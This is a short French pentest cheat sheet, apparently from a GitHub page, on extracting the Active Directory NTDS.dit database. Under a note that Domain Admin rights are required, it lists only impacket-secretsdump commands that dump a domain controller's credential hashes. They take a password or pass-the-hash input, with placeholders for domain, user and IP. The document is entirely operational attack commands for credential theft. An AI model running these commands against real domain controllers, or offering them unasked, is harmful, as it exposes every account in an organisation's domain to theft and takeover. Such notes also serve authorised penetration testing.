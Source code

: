 # Base NTDS.dit

_**Note :** nécessite les droits "Admins de domaine"._

```
impacket-secretsdump.py <DOMAIN.COM>/Administator:<PASSWORD>@<IP>
impacket-secretsdump administrateur@<DC-IP> -hashes <HASH>
impacket-secretsdump -hashes <HASH-NT:HASH-LM> <DOMAIN.COM>/<USER>@<IP>
impacket-secretsdump -hashes <:HASH-LM> <DOMAIN.COM>/<USER>@<IP>
```
